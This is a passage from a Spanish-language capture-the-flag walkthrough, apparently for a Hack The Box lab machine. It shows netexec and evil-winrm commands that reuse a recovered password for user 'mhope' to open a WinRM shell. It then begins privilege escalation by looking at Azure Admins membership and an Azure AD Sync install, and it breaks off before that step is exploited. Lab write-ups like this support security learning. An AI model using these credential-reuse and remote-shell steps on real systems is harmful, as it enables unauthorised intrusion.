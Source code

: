 <figure><img src="../../../../../.gitbook/assets/971_vmware_JAKkUQmUL2.png" alt=""><figcaption></figcaption></figure>

Guardaremos las nuevas credenciales en "credentials.txt"

```bash
catnp credentials.txt
```

<figure><img src="../../../../../.gitbook/assets/972_vmware_D9PoVzvH1Z.png" alt=""><figcaption></figcaption></figure>

## Shell Over WinRM

Probaremos con **netexec** de probar con el usuario "mhope" y la contraseña encontrada de ver si tiene acceso al WinRM. Comprobamos que nos reporta como **Pwn3d**. Por lo tanto, nos indica que efectivamente podemos acceder al WinRM con dichas credenciales.

```bash
netexec winrm 10.10.10.172 -u mhope -p '4n0therD4y@n0th3r$' 2>/dev/null
```

<figure><img src="../../../../../.gitbook/assets/973_vmware_lHc4afnaIh.png" alt=""><figcaption></figcaption></figure>

Probaremos de acceder con **evil-winrm** y las credenciales que disponemos y comprobamos del acceso y de la flag de **user.txt**.

```bash
evil-winrm -i 10.10.10.172 -u mhope -p '4n0therD4y@n0th3r$' 2>/dev/null
```

<figure><img src="../../../../../.gitbook/assets/974_vmware_elymkBsmmQ.png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

### Abusing Azure Admins Group - Obtaining the administrator's password

Teniendo acceso, comprobaremos de qué tipo de permisos dispone el usuario, en este caso, ninguno que nos pueda servir para realizar un PrivEsc.

Revisando los usuarios a los que pertenece el usuario con el que estamos "mhope" nos percatamos de que forma parte del grupo "Azure Admins", veremos si este grupo nos puede servir para explotarlo.

```bash
whoami /priv

net user mhope
```

<figure><img src="../../../../../.gitbook/assets/975_vmware_C2B89B2OOw.png" alt="" width="442"><figcaption></figcaption></figure>

Accederemos a la raíz C:\ y comprobaremos dentor de "C:\Program Files" de que existe un directorio llamado "Azure AD Sync". Esto se puede llegar a convertir un vector para poder elevar nuestros privilegios dependiendo de la versión que se ejecute, etc.

```bash
cd C:\

cd Progra~1

dir
```

